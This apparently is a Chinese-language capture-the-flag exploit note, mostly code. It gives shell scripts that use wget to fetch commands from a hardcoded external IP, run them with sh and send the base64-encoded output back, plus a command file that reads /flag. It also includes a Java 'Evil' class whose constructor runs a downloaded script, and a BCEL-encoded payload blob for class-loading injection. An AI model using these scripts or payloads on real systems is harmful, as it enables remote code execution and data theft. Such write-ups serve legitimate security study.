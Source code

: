 test1.txt写sh脚本

```
#!/bin/sh
wget -O- -q  http://81.70.101.91:10001/`wget -O- -q http://81.70.101.91:10001/command|sh|base64|awk '{printf("%s",$0)}'` | echo

#!/bin/sh
wget http://81.70.101.91:10001/1?a=`wget -O- http://81.70.101.91:10001/command|sh|base64`
```

command1.txt写执行命令

```
cat /flag
```

下载脚本后执行脚本的class

```
public class Evil
{
    public Evil() {
        try {
            Runtime.getRuntime().exec("sh /tmp/ricky");
        }
        catch (Exception ex) {
            ex.printStackTrace();
        }
    }

    public static void main(final String[] array) {
    }
}
```

编译

```
javac Evil.java
java -jar BCELCodeman.jar e Evil.class
$$BCEL$$$l$8b$I$A$A$A$A$A$A$AmQ$cbN$c2$40$U$3dS$K$85Z$e4$r$u$f8$C$5d$I$9a$d8$8d$3b$8c$h$a3$x$7cD$88$$$dcX$ea$E$87G$ne$m$f8E$ae$d9$a0q$e1$H$f8Q$ea$9d$c6$88$89N2$e7$ce$3d$f7$cc$b9$f3x$ffx$7d$Dp$80m$TQ$y$99$c8$o$X$c5$b2$8a$x$G$f2$s$c2$u$YX5$b0$c6$Q9$U$9e$90G$M$a1r$e5$9aA$3f$ee$dfs$86DMx$fc$7c$d4kr$bf$e14$bb$c4$c4$eb$d2q$3bg$ce$m$c8$83$ddy$92$f7$i$e11$e4$ca$b7$b5$b63v$ec$ae$e3$b5$ec$ba$f4$85$d7$aa$w$3b$b3$de$l$f9$$$3f$V$ca$ov2$W$dd$7d$a5$b3$Q$83i$60$dd$c2$G6$c9$7b$f8P$b4eo$60$fb$c2$ed$3cZ$u$a2$c4$90$99$h$9eL$5c$3e$90$a2$efY$d8$82I$5d$95$RCr$ae$b8h$b6$b9$x$ZRs$eaj$e4I$d1$a3$b6f$8b$cb$9f$q$5b$ae$d4$feh$aad$c9$t$dce$d8$v$ffs$8f_$d4$a5$dfw$f9pH$h$S$D$w$ca$e0Q$g$be$e3r$94$60$d0c$ab$a1$81$a9$fb$R$$PvG$b9F1$b7$fb$M$f6$C$z$j$9aA$bfyB$b4$b67CdJ$w$jq$q$e9O4X$a4$x$mB$Y$o6L$7c$8c$w$GR$e4$9c$r$c78U$92$d0$3e$J$98$81E$F$J$3d$d0$a4$be$bb$e5i25$a7$c1B$ZF$C$oN$98$O$O$97$f9$C$fe$5e$s$n$l$C$A$A
```

再次拼接然后拿到请求

```
```
